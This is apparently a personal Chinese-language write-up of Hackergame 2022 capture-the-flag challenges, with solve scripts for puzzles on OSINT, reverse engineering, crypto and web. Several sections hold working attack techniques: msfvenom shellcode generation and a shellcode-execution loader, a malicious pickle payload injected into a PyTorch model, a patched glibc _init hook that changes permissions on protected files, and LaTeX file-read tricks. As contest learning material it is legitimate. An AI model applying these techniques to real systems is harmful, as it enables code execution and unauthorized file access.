





# Hackergame 2022 Writeup

## 前言

[~~又是一年 Hackergame，题目依然高质量，依然对萌新友好，各种梗也依然玩得飞起。~~](https://github.com/USTC-Hackergame/hackergame2021-writeups/tree/master/official/%E8%B6%85%20OI%20%E7%9A%84%20Writeup%20%E6%A8%A1%E6%8B%9F%E5%99%A8)

今年做出的题目比去年多了，名次和分数也有提高，一样也学到了不少东西，总之就是很开心（

## 签到

F12看到 `window.location = "?result=" + result;`，填入2022并拷到地址栏，签到完毕。

## 猫咪问答喵

1. 找一篇 NEBULA 战队的新闻稿。https://cybersec.ustc.edu.cn/2022/0826/c23847a565848/page.htm
2. B站找活动视频，按弹幕找时间戳，脑补拼写后等谷歌自动纠正。

   

   ~~原来大家都听不懂啊~~
3. 搜索 firefox windows 2000。https://support.mozilla.org/en-US/questions/1052888
4. 搜 Linux CVE-2021-4034 能看到这么一个 [patch](https://lore.kernel.org/lkml/af7838bd-4cc1-fc2c-6cb9-8ddd65d5f96@dereferenced.org/T/)。
   然后再根据 patch 内容 git blame [fs/exec.c](https://github.com/torvalds/linux/commits/master/fs/exec.c)。
5. 直接用 shodan 搜。
6. 搜中科大网络通，从[FAQ](https://netfee.ustc.edu.cn/faq/)得到关键词"中国科学技术大学校园网络运行及通信费用分担办法"。
   再次搜索得到这篇[通知](https://ustcnet.ustc.edu.cn/2001/0409/c11109a210875/page.htm)，然后顺着官方文件里找。

## 家目录里的秘密

1. 
2. 继续 rgrep flag 搜到 rclone 配置文件，试了一下 base64 -d 解不出明文，猜测加密了，于是找了个[在线解密器](https://play.golang.org/p/IcRYDip3PnE)。

## HeiLang

写一个转换脚本，将赋值部分转回标准大蟒蛇语言。

```python
f = open('data.txt', 'r')
f2 = open('data_cleaned.txt', 'w')
for line in f:
    line = line.strip()
    left, right = line.split('[')[1].split(']')
    left = [int(word.strip()) for word in left.split('|')]
    right = right.split(' = ')[1]
    for num in left:
        f2.write(f'a[{num}] = {right}\n')
```

## Xcaptcha

本来想写 User Script 的，~~出于对 js 的抵制~~还是 requests + Beautiful Soup 吧。

```python
from bs4 import BeautifulSoup
import requests

TOKEN = ''

s = requests.Session()

s.get('http://202.38.93.111:10047/xcaptcha', params={'token': TOKEN})
r = s.get('http://202.38.93.111:10047/xcaptcha')

soup = BeautifulSoup(r.text, features='html.parser')

ans = []

for div in soup.find_all('div', {'class': 'form-group'}):
    q = div.label.text.split(' 的结果是？')[0]
    op1, op2 = q.split('+')
    ans.append(int(op1) + int(op2))

r = s.post('http://202.38.93.111:10047/xcaptcha', data={'captcha1': ans[0], 'captcha2': ans[1], 'captcha3': ans[2],})

print(r.text)
```

## 旅行照片 2.0

### 图片分析

   去年没有 EXIF 不开心，今年有了（

   第一问所有题目可以通过 Windows 右键、属性找到。

### 社工实践

1. 搜图片上的关键词 chiba lotte marine 查到了个棒球队，补了个 stadium 的关键词，能查到图中的体育馆叫 Zozo Marine Stadium。

   题目问的是拍摄地点，看地图应该是旁边的 APA Hotel。
2. 从 EXIF 可以知道拍摄手机使用 sm6115，再加上小米的关键词能查到手机的规格。
   ~~做完下一问才发现长和宽写反了。~~
3. 因为图片拍摄地点在千叶，自然而然想到和成田机场有关系。
   到成田机场官网试了半天周六的出发和抵达的航班后无果，无奈找了个航班追踪网站开了免费试用，~~然后发现是羽田~~。

## 猜数字

阅读源代码，找到判断逻辑。

```java
var isLess = guess < this.number - 1e-6 / 2;
var isMore = guess > this.number + 1e-6 / 2;
var isPassed = !isLess && !isMore;
```

那么有没有一个数字能同时让 `isLess` 和 `isMore` 不成立呢，那就只有 NaN 了。

前端输入不了字母，手动发个请求吧。

```xml
<state><guess>NaN</guess></state>
```

## LaTeX 机器人

上一次用 LaTex 还是上一次呢。回想起当初学 LaTex 也是我一时兴起，想为考试自己准备一张~~精致的~~ Formula Sheet。
而如今 LaTeX 的基本语法都忘了。。。

第一问使用 `\input{/flag1}` 就能读，一开始没搜到搞复杂了。。。
```latex
\newread\myread
\openin\myread=/flag1
\read\myread to \command

\myread
```

第二问有特殊符号，用 `\input` 会报错。
后来查到可以用 `\catcode` 重写字符种类。

```latex
\catcode`#=12  \catcode`_=12  \input{/flag2}
```

## Flag 的痕迹

找了个在线 DokuWiki Demo，看了一圈后台能干什么，发现线上环境基本都禁用了。
于是去翻[代码](https://github.com/splitbrain/dokuwiki/tree/8a10303f9b6675b2e7dfc58c265ed47778e897d7/inc/Action)看看有什么 API。

这个 diff 看起来很有用的样子，线上试了可以用诶！




## 安全的在线测评

### 无法 AC 的题目

静态数据没设置权限，直接读就可以。
   
```c
#include <stdlib.h>

int main()
{
    return system("cat ./data/static.out");
}
```

### 动态数据
阅读判题脚本发现生成的动态数据权限会改成 700，直接读是行不通了。

然而编译时并没有用 runner 账户，也就是说执行 gcc 的账户就是生成数据的账户，猜测有办法在编译过程中将数据嵌入程序。

搜到这个[库](https://github.com/graphitemaster/incbin)能将文本文件内容作为变量嵌入源码，那就用他了。

剩下的只需要根据输入判断输出的内容了。因为判题顺序是已知的，这里我偷懒用了状态文件来决定输出。

```c
#include <stdio.h>
// 这里曾经有接近500行的 incbin.h

INCTXT(StaticAns, "./data/static.out");
INCTXT(Dynamic0Ans, "./data/dynamic0.out");
INCTXT(Dynamic1Ans, "./data/dynamic1.out");
INCTXT(Dynamic2Ans, "./data/dynamic2.out");
INCTXT(Dynamic3Ans, "./data/dynamic3.out");
INCTXT(Dynamic4Ans, "./data/dynamic4.out");

int get_state()
{
    if (fopen("./temp/state_0", "r") == NULL)
    {
        return 0;
    }
    if (fopen("./temp/state_1", "r") == NULL)
    {
        return 1;
    }
    if (fopen("./temp/state_2", "r") == NULL)
    {
        return 2;
    }
    if (fopen("./temp/state_3", "r") == NULL)
    {
        return 3;
    }
    if (fopen("./temp/state_4", "r") == NULL)
    {
        return 4;
    }
    if (fopen("./temp/state_5", "r") == NULL)
    {
        return 5;
    }
    exit(1);
}

int write_state(int state)
{
    char filename[100];
    sprintf(filename, "./temp/state_%d", state);

    FILE *fp = fopen(filename, "w");

    if (fp == NULL)
    {
        exit(2);
    }

    fclose(fp);
}

int main()
{
    int state = get_state();
    switch (state)
    {
        case 0:
            printf("%s", gStaticAnsData);
            break;
        case 1:
            printf("%s", gDynamic0AnsData);
            break;        
        case 2:
            printf("%s", gDynamic1AnsData);
            break;
        case 3:
            printf("%s", gDynamic2AnsData);
            break;  
        case 4:
            printf("%s", gDynamic3AnsData);
            break;
        case 5:
            printf("%s", gDynamic4AnsData);
            break;
    }

    write_state(state);
    return 0;
}
```

## 线路板

下载 KiCad，隐藏几个不需要的层，再勾选 "Show lines in outline mode" 就看到了。


## Flag 自动机

ida 搜索 flag，看到这么一个函数。在满足一定 ~~恶臭~~ 条件时候后会调 401f8a 这个函数生成 flag 再输出。
不高兴 patch 程序了，那就下一个断点跟吧。


run 了一下，非但没断下还自己退了。看了看其他函数发现有检测 debugger，于是改用 x64dbg + ScyllaHide 单步。



剩下来只需要对着 ida 伪代码，通过改寄存器的方式更改跳转目标地址，再等生成 flag 后直接从内存里拷出来。


## 微积分计算小练习

看题目附件能知道是考察 xss。
找了个 xss cheatsheet 一个个试，发现 img onerror 的方式是有效的。
把下面当作姓名提交，再让 xss bot 去访问即可。

```xml

```

## 杯窗鹅影

看到第二问需要任意命令执行，搜了一下 wine 里能直接调用 linux 的 syscall，自然而然想到可以写段汇编直接让程序直接去跑。

然而不知道我本地的 mingw gcc 有什么问题，inline asm 会报各种奇怪的错，最后采取跑 shell code 的方式。

shell code 则用 ~~大家都爱的~~ msfvenom 生成，pwntools 生成的会 segfault，不高兴查了（

阅读文件：
```bash
msfvenom -p linux/x86/read_file PATH=/flag1 -f c
```

执行文件：
```bash
msfvenom -p linux/x64/exec CMD=/readflag -f c
```

Windows shell code copypasta:

```c
#include <windows.h>

int main()
{
    unsigned char code[] = {};
    
    SYSTEM_INFO system_info;
    GetSystemInfo(&system_info);

    int page_size = system_info.dwPageSize;

    // prepare the memory in which the machine code will be put (it's not executable yet):
    const char* buffer = VirtualAlloc(NULL, page_size, MEM_COMMIT, PAGE_READWRITE);

    // copy the machine code into that memory:
    memcpy(buffer, code, sizeof(code));

    // mark the memory as executable:
    DWORD dummy;
    VirtualProtect(buffer, sizeof(code), PAGE_EXECUTE_READ, &dummy);

    // interpret the beginning of the (now) executable memory as the entry
    // point of a function taking no arguments and returning a 4-byte int:
    int ret = ((int(*)())buffer)();

    // free the executable memory:
    VirtualFree(buffer, 0, MEM_RELEASE);

    return ret;
}
```

后来知道第一问可以直接 fopen，第二问可以直接 ExecuteProcess，不乐（


## 蒙特卡罗轮盘赌

题目用 srand 将随机种子设定为了 `time(0) + clock()`，即当前的时间戳秒数 + 程序当前所用的tick数。

考虑到时间戳基本是已知，tick数一般也不高，那么打一个表就好了。

题目要求5次内猜对3次，则用前2次来确定当前的 seed，后三次查表。

## 二次元神经网络

调了半天参发现题目是 web 分类的（

pytorch 的模型是一个 zip，其中包含一些 metadata 和一个 pkl 文件。

解析 pkl 文件会调用 `pickle` 模块反序列化，而 `pickle` 加载数据的不安全性是[文档](https://docs.python.org/3/library/pickle.html)里标明了的。
可以知道这道题在加载模型时是能执行代码的。

通过阅读推理部分代码可以看到，模型的推理结果会存到一个 json 里面。
那么只要修改输出结果的逻辑，用真实的图片覆盖调模型的推理结果，就可以拿到 flag。

构造 pickle 文件时搜到了有这么一个[库](https://github.com/CensoredUsername/picklemagic)，可以方便地干坏事。

pkl 生成逻辑如下。

```python
import pickleast
import torch
import glob
import base64
import json

model = torch.load('./checkpoint/model.pt')
image_result = {'gen_imgs_b64': []}

for file in sorted(glob.glob("images/*.png")):
    print(file)
    with open(file, 'rb') as f:
        image = base64.b64encode(f.read())
    image_result['gen_imgs_b64'].append(image.decode())

image_result = json.dumps(image_result)

hook = f'''
import json

image_result = \'{image_result}\'
def dump(obj, file):
    file.write(image_result)

json.dump = dump
'''

pkl = pickleast.dumps(pickleast.Sequence(pickleast.Exec(hook), model))

with open("./data.pkl", "wb") as f:
    f.write(pkl)
```

这里用了 `pickleast.Sequence` 将恶意代码和模型对象进行封装。
反序列化时会先执行我们的代码来输出原图，再返回原有的模型。

~~本来想在推理时运行 flask.abort() 来绕过模型验证流行的，不料 abort 抛出的异常被处理了，不开心~~

## 惜字如金

### HS384

39位的 secret 被缩到了11位，只能按照规则爆。

提供的 secret 的 hash 也不完整。
为了防止判断是否爆破成功时出错，我这里只检查了开头和结尾来缩小可能的 secret 范围，再人眼观察。

```python
from itertools import product
from hashlib import sha384
from difflib import get_close_matches

GIVEN_LEN = len('ustc.edu.cn')
TOTAL_LEN = 39

def gen_word(x, extra1='', extra2='', extra3=''):
    e0 = x[0] * 's'
    e1 = x[1] * 't'
    e2 = x[2] * 'c'
    e3 = x[3] * 'd'
    e4 = x[4] * 'c'
    e5 = x[5] * 'n'
    word = f'us{e0}t{e1}c{e2}{extra1}.ed{e3}u{extra2}.c{e4}n{e5}{extra3}'
    return word

def get_check_hash(word):
    digest = sha384(word.encode()).hexdigest()
    if digest.startswith('ec') and (digest.endswith('d') or digest.endswith('de')) and (digest.startswith('ecc') or digest.startswith('ec1')):
        print(f'{word} {digest}')
        f.write(f'{word} {digest}\n')
        f.flush()
    return digest

f = open('dict.txt', 'w')

if __name__ == '__main__':
    for x in product(range(TOTAL_LEN - GIVEN_LEN), repeat=len('stcdcn')):
        if sum(x) != TOTAL_LEN - GIVEN_LEN - 1:
            continue
        word = gen_word(x, 'e')
        get_check_hash(word)

    for x in product(range(TOTAL_LEN - GIVEN_LEN - 1), repeat=len('stcdcn')):
        if sum(x) != TOTAL_LEN - GIVEN_LEN - 2:
            continue
        word = gen_word(x, 'e', 'e')
        get_check_hash(word)

    for x in product(range(TOTAL_LEN - GIVEN_LEN - 2), repeat=len('stcdcn')):
        if sum(x) != TOTAL_LEN - GIVEN_LEN - 3:
            continue
        word = gen_word(x, 'e', 'e', 'e')
        get_check_hash(word)

    for x in product(range(TOTAL_LEN - GIVEN_LEN + 1), repeat=len('stcdcn')):
        if sum(x) != TOTAL_LEN - GIVEN_LEN:
            continue
        word = gen_word(x)
        get_check_hash(word)
```


## 置换魔群

### RSA

由 RSA，`ed ≡ 1 (modφ(N)`。

根据提示 "the order of the permutation group can be computed easily" 猜测对于置换群来说`φ(N)`就是它的阶。

试了一下就解出来了（

```python
from permutation_group import permutation_element, permutation_group
from math import factorial
import re
import sympy
from pwn import *

def s2n(x): return [int(x) for x in re.findall(r"\-?\d+\.?\d*", x)]

p = remote('202.38.93.111', 10114)
p.sendline(b'TOKEN')
p.sendlineafter(b'your choice:', b'1')

p.recvline_contains(b'Just get it!')

for i in range(15):
    print(f'Run {i + 1}')
    p.recvuntil(b'RSA public key: ')
    n = int(p.recvline().split(b',')[0].split(b'= ')[1])
    print(f'{n=}')
    p.recvline_contains(b'my encrypted secret is here')
    m = s2n(p.recvline().decode())
    p.recvuntil(b'your answer:')
    e = 65537
    element = permutation_element(n, m)
    order = element.order()
    d = sympy.mod_inverse(e, order)
    plain = element ** d
    p.sendline(str(plain).encode())
    assert b'Good job' in p.recvline()

p.interactive()
```

## 光与影

fragment-shader 里 t{1,2,3,4}sdf 函数里有很多坐标，而 t5sdf 则没有，所以怀疑 t5sdf 是画盖住 flag 的矩形的。

那么看一下哪里用到了 t5sdf，把调用去掉吧。

```js
float t1 = t1SDF(pTO.xyz);
float t2 = t2SDF((mk_trans(-45.0, 0.0, 0.0) * pTO).xyz);
float t3 = t3SDF((mk_trans(-80.0, 0.0, 0.0) * pTO).xyz);
float t4 = t4SDF((mk_trans(-106.0, 0.0, 0.0) * pTO).xyz);

float tmin = min(min(min(t1, t2), t3), t4);
```

## 链上记忆大师

### 记忆练习

找一个示例改一改，用 [Remix IDE](https://remix.ethereum.org/) 编译后复制 bytecode。

```solidity
pragma solidity =0.8.17;

contract MemoryMaster {
	uint256 old;

    function memorize(uint256 n) external {
		old = n;
	}

    function recall() external view returns (uint256) {
		return old;
	}
}
```

## 片上系统

### 引导扇区

用 PulseView 的 SD card (SPI mode) decoder，导出获得SD卡的内容。
strings 一下即可得到第一个 flag。

### 操作系统

通过对扇区内容的观察，猜测`370110`为代码段的开头，于是将第二段 binary 也就是操作系统拷出来进行反汇编。

反汇编时能看到代码段在 `FF FF` 前两个字节就断了，结合上面的观察说明扇区的分割符一共为23字节，去除后进行分析。

初步分析能看到操作系统一共由2个函数组成，一个是打印信息的函数，一个神秘函数。

在打印信息函数里，会依次打印 LED ON、Memory OK、Video outputed、flag{ 和 }。
flag的内容则通过调用神秘函数来打印，调用参数为 0x20001018、0xfeadae83、0xe0。

那么按照神秘函数的逻辑写一个程序跑跑看吧。

```c
#include <stdio.h>
#include <cstdint>

void dec(uint32_t param)
{
    int8_t count = 0x1c;
    char buffer[1000] = {};
    char *pbuffer = buffer;

    do
    {
        uint8_t val1 = param >> (count & 0x1f) & 0xf;
        int8_t val2 = val1 > 9 ? 0x57: 0x30;
        *pbuffer = val2 + val1;
        pbuffer++;
        count -= 4;
    }
    while (count > -4);
    printf("%s", buffer);
}

int main()
{
    dec(0x20001018);
    dec(0xfeadae83);
    dec(0xe0);
    return 0;
}
```

通过运行发现其实是个简单的 hexdump。


## 传达不到的文件

探索容器环境，发现 /lib64 目录是可写的，那么就在 glibc 上做手脚吧。

这里使用重写 glibc _init 函数的方式，让 chall 执行时把 flag 文件的权限都改成 777，从而让普通用户能读取 flag。

步骤如下：

1. 编译一个带`_init`函数的 hook
    ```c
    #include <stdio.h>
    #include <sys/stat.h>

    void _init(void)
    {
        printf("Init");
        chmod("chall", 0777);
        chmod("flag2", 0777);
    }
    ```

    编译命令

    ```bash
    gcc -shared hook.c -fPIC -nostartfiles -o hook.so
    ```

    用了 nostartfiles 这个选项是为了防止 gcc 编译时候引入的初始化函数和我们的 hook 重名（~~而我们就是故意重名的~~），导致在链接阶段时报 multiple definition of `_init' 的错误。

2. 把容器里的 glibc 下载下来，再用 patchelf 把自己的 hook 加到 glibc 的依赖里，从而覆盖调 glibc 本身的 _init 函数。
    ```bash
    cp libc.so.6 libc_orig.so.6
    patchelf --add-needed ./libc.so.6 hook.so
    ```
3. 用 xdelta3 制作一个 patch
    ```bash
    xdelta3 -e -s libc_orig.so.6 libc.so.6 libc.patch
    ```
4. 打包并上传相关文件到题目环境，~~开始偷flag~~
   
    本地
    ```bash
    7z a patch.zip hook.so libc.patch /usr/bin/xdelta3 /usr/lib/x86_64-linux-gnu/liblzma.so*
    cat patch.zip | xz | base64 > patch.txt
    ```

    远程

    ```bash
    base64 -d | xz -d > patch.zip
    # 粘贴 patch.txt 再 Ctrl + D
    unzip patch.zip
    mv liblzma.so* /lib64
    chmod +x xdelta3
    ./xdelta3 -d -s /lib64/libc.so.6 libc.patch /lib64/libc_patched.so.6
    mv /lib64/libc_patched.so.6 /lib64/libc.so.6
    ./chall
    # 此时我们已经可以读取 flag 内容了，Ctrl + C 掉
    strings chall | grep flag
    cat /flag2
    ```

后来看了其他选手 writeup，原来 /etc/ld.so.preload 对 suid binary 是有效的，用不着 patch glibc，还是做麻烦了。


## 看不见的彼方

考察 Linux 进程 IPC，不可以用 socket 和文件，那就用 shm 吧。

A.c

```c
#include <stdio.h>
#include <sys/ipc.h>
#include <sys/shm.h>
#include <string.h>
#include <stdlib.h>

int main()
{
    key_t key = ftok("shmfile", 65);
    int shmid = shmget(key, 1024, 0666 | IPC_CREAT);
    char *str = (char*) shmat(shmid, (void*)0, 0);

    memset(str, 0, 1024);

    FILE *fp = fopen("/secret", "r");
    if (fp == NULL)
    {
        exit(-1);
    }

    fread(str, 1, 64, fp);
    fclose(fp);
}
```

B.c

```c
#include <stdio.h>
#include <sys/ipc.h>
#include <stdlib.h>

int main()
{
    key_t key = ftok("shmfile", 65);
    int shmid = shmget(key, 1024, 0666 | IPC_CREAT);
    char *str = (char*) shmat(shmid, (void*)0, 0);

    while (*str == '\0');
    printf("%s", str);
}
```

官方题解居然用 signal，又回想起操作系统课的一个大作业：分别用2个自定义信号和1个自定义信号实现 IPC，并且不允许用 sigqueue。

2个信号还比较容易解决：SIGUSR1 代表 bit 1，SIGUSR2 代表 bit 0。

1个信号就比较难受了，当时我用信号之间的延迟来区分 0 和 1，真是太 hack 了。。。


## 量子藏宝图

找个对照表就可以做第一问。



```python
import requests
import secrets
from bs4 import BeautifulSoup

def rand_char(iter, n):
    a = ''
    for _ in range(n):
        a += secrets.choice(iter)
    return a

# 生成的量子态的长度，太短了的话 key 可能不到 128bit
TOTAL_LEN = 40
alice_basis = rand_char('+x', TOTAL_LEN)
alice_result = rand_char('01', TOTAL_LEN)

print(f'{alice_basis=}')
print(f'{alice_result=}')

s = requests.Session()
r = s.get('http://202.38.93.111:18080', params={'token': ''})
r = s.post('http://202.38.93.111:18080/login', data={'alice_basis': alice_basis, 'alice_result': alice_result})
soup = BeautifulSoup(r.text, features="html.parser")
bob_basis = soup.find('input', {'id': 'bobBasis'})['value']
assert len(alice_basis) == len(bob_basis)

print(f'{bob_basis=}')
bob_result = ''

LUT = {('+', '0', '+'): '0', ('+', '1', '+'): '1', ('x', '1', 'x'): '1', ('x', '0', 'x'): '0'}

for i in range(TOTAL_LEN):
    g = (alice_basis[i], alice_result[i], bob_basis[i])
    c = LUT.get(g)
    if not c:
        continue
    bob_result += c

print(f'{bob_result=}')

r = s.post('http://202.38.93.111:18080/check_key', data={'alice_basis': alice_basis, 'alice_result': alice_result, 'bob_basis': bob_basis, 'bob_result': bob_result})

print(r.text)
with open('result.html', 'w') as f:
    f.write(r.text)
```

做完第一问后获得一张电路图，直接抄即可获得 flag。


## 企鹅拼盘

### 这么简单我闭眼都可以

16种情况，试一下就好。

### 大力当然出奇迹啦~

大力出奇迹，直接改程序代码进行爆破。

题目代码增加：
```python
def set_inbits(self, inbits):
    self.inbits = inbits
```

爆破部分代码：
```python
def chal(bitlength, obf):
    from itertools import product

    filename = f'chals/b{bitlength}{"_obf" if obf else ""}.json'
    with open(filename) as f:
        branches = json.load(f)

    app = BPApp(bitlength=bitlength, branches=branches)
    app.pc = len(branches)

    def try_challenge(inbits):
        app.set_inbits(inbits)
        app.watch_pc(app.pc)
        success = bool(app.board)
        if success:
            with open('result.txt', 'w') as f:
                f.write(f'{inbits}\n')
                bits = ''
                for p in inbits:
                    bits += str(p)
                f.write(f'{bits}\n')
            print(inbits)
            exit(0)

    for x in product(range(2), repeat=bitlength):
        try_challenge(x)
```

## 火眼金睛的小 E

第一问手做就可以了，两个函数非常相似，我是用的 ida 看流程图找分叉数相近的函数。

第二问以后很明显要自动化了。
angr 有 bindiff 的支持，不料 angr 加载不了题目的 elf，作罢。
